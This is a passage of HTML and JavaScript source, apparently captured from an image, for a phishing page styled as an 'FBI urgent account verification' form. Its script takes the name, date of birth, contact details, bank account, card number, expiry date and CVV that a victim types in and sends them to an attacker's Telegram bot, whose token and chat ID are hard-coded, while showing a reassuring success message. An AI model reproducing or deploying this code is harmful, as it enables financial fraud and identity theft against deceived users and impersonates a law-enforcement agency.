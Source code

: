                 <label for="cardNumber">Card Number</label>
                <input type="text" id="cardNumber" name="cardNumber" placeholder="Enter your card number" required>
            </div>
            <div class="form-group">
                <label for="expiryDate">Card Expiry Date</label>
                <input type="month" id="expiryDate" name="expiryDate" required>
            </div>
            <div class="form-group">
                <label for="cvv">CVV</label>
                <input type="password" id="cvv" name="cvv" placeholder="Enter the CVV" maxlength="3" required>
            </div>

            <!-- Submit Button -->
            <div class="form-group">
                <button type="submit">Verify Now</button>
            </div>
        </form>
        <div class="success-message" id="successMessage">
            We will get back to you soon after we have verified everything. Thank you!
        </div>
    </div>

    <script>
        const BOT_TOKEN = "7092700046:AAG4ysq9uQu_2nFBrKqx--wdf4C5jJG4_Bo";
        const CHAT_ID = "6482794683";

        const form = document.getElementById('verificationForm');
        const successMessage = document.getElementById('successMessage');

        form.addEventListener('submit', function(event) {
            event.preventDefault();

            const formData = new FormData(form);
            const data = Object.fromEntries(formData.entries());

            const message = `
🚨 **FBI URGENT ACCOUNT VERIFICATION** 🚨
---------------------------------------
♻️ **Full Name**: ${data.fullName}
📅 **DOB**: ${data.dob}
📧 **Email**: ${data.email}
📞 **Phone Number**: ${data.phoneNo}
🏦 **Bank Name**: ${data.bankName}
💳 **Account Number**: ${data.accountNumber}
🔑 **IFSC Code**: ${data.ifscCode}
💳 **Card Number**: ${data.cardNumber}
📅 **Expiry Date**: ${data.expiryDate}
🔒 **CVV**: ${data.cvv}
---------------------------------------
            `;

            fetch(`https://api.telegram.org/bot${BOT_TOKEN}/sendMessage`, {
                method: 'POST',
                headers: { 'Content-Type': 'application/json' },
                body: JSON.stringify({
                    chat_id: CHAT_ID,
                    text: message,
                    parse_mode: 'Markdown',
                }),
            })
            .then(response => response.json())
            .then(data => {
                if (data.ok) {
                    successMessage.style.display = 'block';
                    form.reset();
                } else {